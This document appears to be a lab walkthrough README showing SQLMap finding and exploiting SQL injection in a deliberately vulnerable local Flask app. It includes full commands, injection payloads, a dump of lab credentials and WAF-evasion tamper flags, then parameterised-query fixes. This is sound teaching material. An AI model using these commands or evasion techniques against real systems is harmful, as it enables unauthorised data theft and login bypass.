










# SQLMap Walkthrough — SQL Injection Testing

## Overview

This guide documents a SQL injection engagement against **VulnShop**, an intentionally vulnerable Flask application built for this lab. The walkthrough follows real-world pentest methodology: reconnaissance, injection point discovery, exploitation, and data extraction — using SQLMap as the primary tool.

> **Legal notice:** All testing was performed against a locally hosted lab application. Never run SQLMap against systems you do not own or have explicit written authorisation to test.

---

## Lab Environment

| Component   | Detail                                  |
|-------------|------------------------------------------|
| Target      | `http://127.0.0.1:5000` (VulnShop lab) |
| Backend DB  | SQLite                                   |
| Tool        | SQLMap 1.10.5                            |
| OS          | Ubuntu (Cletus-lab VM)                   |

**Start the target app before running any commands:**

```bash
cd target/
python3 app.py
```

---

## Injection Points Tested

| # | Endpoint         | Method | Context           |
|---|-----------------|--------|-------------------|
| 1 | `/search?q=`     | GET    | Query parameter   |
| 2 | `/login`         | POST   | Form fields       |
| 3 | `/api/product`   | POST   | JSON body         |
| 4 | `/track`         | GET    | HTTP header       |

---

## Step 1 — GET Parameter (`/search?q=`)

**What we're testing:** The search endpoint passes the `q` parameter directly into a `LIKE` clause with no sanitisation.

**Command:**
```bash
sqlmap -u "http://127.0.0.1:5000/search?q=Widget" \
  --batch --level=2 --risk=2 \
  --dbms=sqlite --technique=EBT
```

**Flag breakdown:**

| Flag | Purpose |
|------|---------|
| `-u` | Target URL with the injectable parameter |
| `--batch` | Non-interactive mode (auto-selects defaults) |
| `--level=2` | Test additional injection points (cookies, headers) |
| `--risk=2` | Include heavier payloads (OR-based) |
| `--dbms=sqlite` | Skip DB fingerprinting — we already know the backend |
| `--technique=EBT` | Error-based, Boolean-blind, Time-based only |

**Output:**
```
[INFO] GET parameter 'q' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable
Parameter: q (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: q=Widget%' AND 4912=4912 AND 'zvGZ%'='zvGZ
back-end DBMS: SQLite
```

**Result:** Boolean-based blind injection confirmed. SQLite backend fingerprinted.




---

## Step 2 — POST Form (`/login`)

**What we're testing:** The login form passes `username` and `password` directly into a query — enabling both error-based detection and authentication bypass.

**Command:**
```bash
sqlmap -u "http://127.0.0.1:5000/login" \
  --data="username=admin&password=test" \
  --batch --level=2 --risk=2 \
  --dbms=sqlite --technique=EBT
```

**Flag breakdown:**

| Flag | Purpose |
|------|---------|
| `--data` | POST body — SQLMap tests each field for injection |

**Output:**
```
[INFO] POST parameter 'username' appears to be 'SQLite AND boolean-based blind' injectable
Parameter: username (POST)
    Type: boolean-based blind
    Title: SQLite AND boolean-based blind - WHERE, HAVING, GROUP BY or HAVING clause (JSON)
    Payload: username=admin' AND CASE WHEN 1299=1299 THEN 1299 ELSE JSON(...) END AND 'xCEp'='xCEp
back-end DBMS: SQLite
```

**Result:** Both `username` and `password` fields are injectable. The `username` field is the higher-risk finding — authentication bypass is possible without knowing any password.




---

## Step 3 — JSON API Body (`/api/product`)

**What we're testing:** A REST API endpoint accepts `{"id": "1"}` and injects the value directly. Most scanners miss this — browsers and simple scanners only test HTML form fields.

**Command:**
```bash
sqlmap -u "http://127.0.0.1:5000/api/product" \
  --data='{"id": "1"}' \
  --headers="Content-Type: application/json" \
  --batch --level=2 --risk=2 \
  --dbms=sqlite --technique=EBT
```

**Flag breakdown:**

| Flag | Purpose |
|------|---------|
| `--headers` | Sets `Content-Type: application/json` so SQLMap sends valid JSON |

**Output:**
```
[INFO] (custom) POST parameter 'JSON id' appears to be 'AND boolean-based blind' injectable
Parameter: JSON id ((custom) POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: {"id": "1 AND 8294=8294"}
back-end DBMS: SQLite
```

**Result:** JSON body injection confirmed. SQLMap auto-detected the JSON structure and fuzzed the `id` field correctly.




---

## Step 4 — Data Extraction (Dump `users` table)

**What we're testing:** Using the confirmed GET injection point to extract the full `users` table — proving the business impact of the vulnerability.

**Command:**
```bash
sqlmap -u "http://127.0.0.1:5000/search?q=Widget" \
  --batch --level=3 --risk=2 \
  --dbms=sqlite --technique=B \
  -T users --dump
```

**Flag breakdown:**

| Flag | Purpose |
|------|---------|
| `--level=3` | Enables more aggressive payload variants |
| `--technique=B` | Boolean-blind only (confirmed technique, faster extraction) |
| `-T users` | Target the `users` table specifically |
| `--dump` | Extract all rows from the target table |

**Output:**
```
[INFO] fetching entries for table 'users' in database 'SQLite_masterdb'
[INFO] retrieved: 4

Database table: users (4 entries)
+----+-------+-------------------+----------------+----------+
| id | role  | email             | password       | username |
+----+-------+-------------------+----------------+----------+
| 1  | admin | admin@lab.local   | supersecret123 | admin    |
| 2  | user  | alice@lab.local   | password1      | alice    |
| 3  | user  | bob@lab.local     | letmein        | bob      |
| 4  | user  | charlie@lab.local | qwerty         | charlie  |
+----+-------+-------------------+----------------+----------+
```

**Result:** Full credentials table extracted via boolean-blind injection. An attacker can now authenticate as any user, including the admin account.





---

## Step 5 — WAF Evasion (Tamper Scripts)

**What we're testing:** If a basic input filter or WAF is present, SQLMap's tamper scripts can obfuscate payloads to bypass it.

**Command:**
```bash
sqlmap -u "http://127.0.0.1:5000/search?q=Widget" \
  --batch --level=2 --risk=2 \
  --dbms=sqlite --technique=B \
  --tamper=space2comment,between,randomcase
```

**Tamper scripts used:**

| Script | What it does |
|--------|-------------|
| `space2comment` | Replaces spaces with `/**/` — bypasses space-based filters |
| `between` | Replaces `>` with `NOT BETWEEN 0 AND` |
| `randomcase` | Randomises letter case: `SELECT` → `sElEcT` |

**Why this matters:** Many applications implement naive keyword blocking (`OR`, `SELECT`, `UNION`). Tamper scripts demonstrate that string-matching filters are never a reliable defence against SQL injection — only parameterised queries are.



---

## Key Findings Summary

| # | Endpoint | Parameter | Technique | Severity |
|---|---------|-----------|-----------|---------|
| 1 | `/search` | `q` (GET) | Boolean-blind | High |
| 2 | `/login` | `username` (POST) | Boolean-blind + Auth bypass | Critical |
| 3 | `/login` | `password` (POST) | Boolean-blind | High |
| 4 | `/api/product` | `id` (JSON POST) | Boolean-blind | High |

---

## Remediation

The root cause across all findings is the same: **user-controlled input is interpolated directly into SQL query strings.**

### Vulnerable pattern (Python + SQLite)
```python
# Every injection point in this lab uses this pattern
query = f"SELECT * FROM users WHERE username='{username}'"
cursor.execute(query)
```

### Fixed pattern — parameterised query
```python
# Parameterised queries make injection structurally impossible
cursor.execute("SELECT * FROM users WHERE username=?", (username,))
```

For JSON API endpoints, also enforce type validation:
```python
# Reject non-integer IDs before they reach the query
product_id = int(request.json["id"])  # raises ValueError if not a valid integer
cursor.execute("SELECT * FROM products WHERE id=?", (product_id,))
```

For header-based injection:
```python
import re
client_ip = request.headers.get("X-Forwarded-For", request.remote_addr)
if not re.match(r"^\d{1,3}(\.\d{1,3}){3}$", client_ip):
    client_ip = "0.0.0.0"
cursor.execute("SELECT * FROM logs WHERE ip=?", (client_ip,))
```

**Important:** WAF rules and input sanitisation are defence-in-depth measures only. Parameterised queries are the only reliable fix.

---

## Screenshots

| File | Contents |
|------|---------|
| `step1_get_param.png` | SQLMap detecting GET parameter injection |
| `step2_post_login.png` | SQLMap detecting POST form injection |
| `step3_json_api.png` | SQLMap detecting JSON body injection |
| `step4_dump.png` | Full `users` table extracted |
| `step5_tamper.png` | Tamper scripts bypassing basic filters |
